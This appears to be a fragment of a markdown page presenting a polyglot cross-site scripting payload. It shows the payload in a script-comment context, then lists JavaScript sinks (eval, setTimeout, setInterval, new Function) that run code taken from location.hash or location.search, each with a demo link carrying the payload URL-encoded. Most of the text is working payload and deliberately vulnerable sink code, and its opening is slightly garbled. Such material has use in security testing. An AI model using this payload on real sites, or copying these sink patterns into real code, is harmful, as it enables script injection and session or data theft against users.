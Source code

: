 ```html
</script>
```
_Demo: <https://jsbin.com/fatorag>_
```html
<script>
/*

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

*/
</script>
```
_Demo: <https://jsbin.com/vovogo>_
##### _JS sinks_:
* __`eval`:__
````javascript

eval(location.hash.slice(1));

````
_Demo: [https://jsbin.com/qejisu#jaVasCript:/\*-/\*%60/*%5C%60/\*'/*%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e](https://jsbin.com/qejisu#jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e)_

* __`setTimeout`:__
````javascript

setTimeout(location.search.slice(1));

````
_Demo: [https://jsbin.com/qawusa?jaVasCript:/\*-/\*%60/\*%5C%60/\*'/\*%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e](https://jsbin.com/qawusa?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e)_

* __`setInterval`:__
````javascript

setInterval(location.search.slice(1));

````
_Demo: [https://jsbin.com/colese?jaVasCript:/\*-/\*%60/\*%5C%60/\*'/\*%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e](https://jsbin.com/colese?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e)_

* __`Function`:__
````javascript

new Function(location.search.slice(1))();

````
_Demo: [https://jsbin.com/hizemi?jaVasCript:/\*-/\*%60/\*%5C%60/\*'/\*%22/\*\*/(/\*%20\*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e](https://jsbin.com/hizemi?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert()//%3E%5Cx3e)_
